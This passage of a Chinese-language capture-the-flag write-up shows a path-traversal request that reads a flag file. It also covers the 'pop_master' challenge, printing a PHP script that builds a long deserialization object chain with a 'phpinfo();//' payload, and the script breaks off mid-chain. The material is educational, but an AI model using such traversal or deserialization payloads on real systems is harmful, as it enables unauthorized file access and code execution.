 ### 任意文件读拿flag：

```
/wap/common/show?templateFile=../../../../../../flag
```

## **pop_master**

*题目内容：听说你是**pop**链构建大师？*

![](img/5bd336fac4309cf20101d6aa5bc73359.png)

### **16万行代码，从12点看到3点，就硬看：**

```
<?php

include "class.php";

$o = new cdKBgX();
$b = "phpinfo();//";

$o->IG2X7eS = new guAeB0;
$o->IG2X7eS->LTo0wOs = new MZ2dMV;
$o->IG2X7eS->LTo0wOs->WU6aUWm = new nXKQYP;
$o->IG2X7eS->LTo0wOs->WU6aUWm->mGpVYwd = new r6lSwy;
$o->IG2X7eS->LTo0wOs->WU6aUWm->mGpVYwd->q6VMPac = new UW5vkV;
$o->IG2X7eS->LTo0wOs->WU6aUWm->mGpVYwd->q6VMPac->XlZSk2f = new DqoC5G;
$o->IG2X7eS->LTo0wOs->WU6aUWm->mGpVYwd->q6VMPac->XlZSk2f->qd1Gk6X = new TBFTL7;
$o->IG2X7eS->LTo0wOs->WU6aUWm->mGpVYwd->q6VMPac->XlZSk2f->qd1Gk6X->z2qMn5H = new qoEd8u;
$o->IG2X7eS->LTo0wOs->WU6aUWm->mGpVYwd->q6VMPac->XlZSk2f->qd1Gk6X->z2qMn5H->BmsS1eX = new fFEGgM;
$o->IG2X7eS->LTo0wOs->WU6aUWm->mGpVYwd->q6VMPac->XlZSk2f->qd1Gk6X->z2qMn5H->BmsS1eX->uXVxFLL = new rn4PNR;
$o->IG2X7eS->LTo0wOs->WU6aUWm->mGpVYwd->q6VMPac->XlZSk2f->qd1Gk6X->z2qMn5H->BmsS1eX->uXVxFLL->TdVPKPS = new pRM5G8;
$o->IG2X7eS->LTo0wOs->WU6aUWm->mGpVYwd->q6VMPac->XlZSk2f->qd1Gk6X->z2qMn5H->BmsS1eX->uXVxFLL->TdVPKPS->k6WTa5m = new Bwn3ZW;
$o->IG2X7eS->LTo0wOs->WU6aUWm->mGpVYwd->q6VMPac->XlZSk2f->qd1Gk6X->z2qMn5H->BmsS1eX->uXVxFLL->TdVPKPS->k6WTa5m->PmYsubO = new saCGME;
$o->IG2X7eS->LTo0wOs->WU6aUWm->mGpVYwd->q6VMPac->XlZSk2f->qd1Gk6X->z2qMn5H->BmsS1eX->uXVxFLL->TdVPKPS->k6WTa5m->PmYsubO->c449DBi = new ubPVyV;
$o->IG2X7eS->LTo0wOs->WU6aUWm->mGpVYwd->q6VMPac->XlZSk2f->qd1Gk6X->z2qMn5H->BmsS1eX->uXVxFLL->TdVPKPS->k6WTa5m->PmYsubO->c449DBi->lgNpoOl = new b8WIcp;
$o->IG2X7eS->LTo0wOs->WU6aUWm->mGpVYwd->q6VMPac->XlZSk2f->qd1Gk6X->z2qMn5H->BmsS1eX->uXVxFLL->TdVPKPS->k6WTa5m->PmYsubO->c449DBi->lgNpoOl->OkOSSwp = new q4IoOD;
```
